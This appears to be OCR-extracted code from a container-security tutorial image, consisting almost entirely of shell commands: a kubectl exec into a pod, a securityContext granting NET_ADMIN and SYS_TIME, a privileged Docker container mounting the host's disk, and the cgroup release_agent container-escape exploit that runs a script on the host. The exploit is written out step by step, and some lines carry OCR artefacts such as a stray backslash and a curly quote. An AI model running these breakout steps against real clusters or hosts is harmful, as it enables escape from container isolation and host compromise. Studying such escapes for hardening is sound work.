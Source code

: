 kubectl exec --stdin --tty nginx-deployment-74b89459bc-g26fc  -- /bin/bash





securityContext:
  capabilities:
    add: ["NET_ADMIN", "SYS_TIME"]

-----

docker run --rm -it --privileged ubuntu:18.04 bash
mkdir -p /mnt/hole
mount /dev/nvme0n1p1 /mnt/hole


# On the host
docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash
 
# In the container
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
 
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
 
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs”
more /output